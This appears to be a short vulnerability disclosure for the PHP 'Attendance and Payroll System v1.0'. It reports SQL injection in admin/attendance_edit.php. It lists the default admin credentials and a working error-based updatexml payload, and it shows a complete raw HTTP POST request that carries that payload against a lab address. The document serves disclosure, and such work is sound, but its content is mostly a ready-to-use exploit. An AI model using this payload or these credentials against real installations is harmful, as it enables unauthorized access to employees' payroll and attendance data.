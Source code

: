 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\attendance_edit.php has SQL injection

Payload: id=86' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&edit_date=2022-03-21&edit_time_in=17%3A15%3A24&edit_time_out=00%3A00%3A00&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159258470-5231d4fa-9cc9-494f-8540-ceb6952b957d.png)

```sql
POST /apsystem/admin/attendance_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 85
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/attendance.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=86' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&edit_date=2022-03-21&edit_time_in=17%3A15%3A24&edit_time_out=00%3A00%3A00&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159258571-0e79545b-d692-4a95-b6a8-2a5d97af111b.png)

![image](https://user-images.githubusercontent.com/54017627/159258375-8d1eeaae-2257-4045-a10c-5bc0e5b6fc56.png)

